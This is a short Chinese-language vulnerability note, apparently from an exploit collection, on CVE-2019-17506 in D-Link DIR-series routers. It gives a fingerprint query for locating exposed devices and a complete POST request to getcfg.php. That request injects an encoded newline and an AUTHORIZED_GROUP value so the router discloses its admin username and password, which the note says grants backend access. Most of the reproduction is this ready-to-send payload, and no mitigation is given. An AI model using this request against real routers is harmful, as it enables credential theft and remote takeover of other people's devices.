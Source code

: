 # D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506 

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

```
D-Link Dir 系列多个版本
```

## 网络测绘

```
app="D_Link-DIR-868L"
```

## 漏洞复现

登录页面如下

![](images/202202162225738.png)

发送下请求包

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![](images/202202162226400.png)

获取到路由器账号密码即可登录后台
